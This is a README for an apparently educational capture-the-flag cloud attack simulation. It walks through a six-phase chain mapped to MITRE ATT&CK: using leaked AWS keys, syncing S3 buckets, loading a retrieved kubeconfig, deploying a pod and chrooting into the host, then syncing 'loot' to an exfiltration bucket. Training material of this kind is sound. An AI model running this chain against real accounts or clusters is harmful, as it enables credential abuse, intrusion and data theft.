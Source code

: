 > This repository is for educational and ethical testing purposes only. Do not use any information here on unauthorized systems.

# Essential-Tools-to-Win-Magic-CTF

#  cloudcreds2exfil – From Clues to Cluster

>  A cloud adversary simulation that begins with a tiny leak and ends in full-blown compromise. Can you trace the entire chain?

---

## The Premise

You have discovered an unguarded secret. Somewhere in this repo lies a path that leads from the cloud to the cluster — and deeper still.

Each phase builds upon the last. Stay sharp, question everything.

---

## Objectives
-Exfiltrate data from unexpected places


### Phase 1: Something’s hiding in plain sight  
> _"Source code rarely lies. Look deep, not wide."

You’ve found a pair of keys. But who do they belong to?

- **T1528: Steal Application Access Token**
- **T1552.001: Unprotected Credentials in Files**

####  Commands

# Configure the AWS CLI with the leaked keys
aws configure

# Confirm identity
aws sts get-caller-identity

  ### Phase 2: Objects may be closer than they appear  
> _"They left the door ajar — you just need to push."_

The object store knows more than it should.

** MITRE ATT&CK Mapping**  
- **T1530**: Data from Cloud Storage Object  
- **T1083**: File and Directory Discovery

####  Commands

# List accessible buckets
aws s3 ls

# Explore an interesting bucket
aws s3 ls s3://<your-s3-bucket-name>

# Download everything from the bucket
aws s3 sync s3://<your-s3-bucket-name> ./<your-local-sync-dir>

### Phase 3: A config speaks volumes  
> _"You now speak the cluster’s language."_

With kubeconfig in hand, you're not just an outsider anymore.

** MITRE ATT&CK Mapping**  
- **T1592.002**: Gather Cloud Infrastructure Configuration - Container Orchestration  
- **T1609**: Kubernetes API Access

# Set the path to the retrieved kubeconfig file
export KUBECONFIG=<path-to-your-kubeconfig>

# Verify cluster access
kubectl get pods -A
kubectl get nodes

###  Phase 4: Craft with intent  
> _"Containers are guests — some overstay and snoop around."_

You don’t need a weapon. Just access.

** MITRE ATT&CK Mapping**  
- **T1610**: Deploy Container  
- **T1611**: Escape to Host
  
####  Commands
kubectl apply -f <pod-manifest>.yaml
kubectl exec -it <<podname>> -- /bin/bash

###  Phase 5: Crossing the line  
> _"If you're reading this, you’re probably in the wrong place."_

Your pod can see more than it should.

** MITRE ATT&CK Mapping**  
- **T1057**: Process Discovery  
- **T1082**: System Information Discovery

ls /host
chroot /host  
hostname

### Phase 6: Leave a trail — or don’t  
> _"Loot is only valuable when carried out."_

** MITRE ATT&CK Mapping**  
- **T1537**: Transfer Data to Cloud Account  
- **T1005**: Data from Local System  
- **T1041**: Exfiltration Over C2 Channel


# use AWS CLI from host (if credentials found)

#  sync larger loot
aws s3 sync <<object>> s3://<your-exfil-bucket>/<objects>>






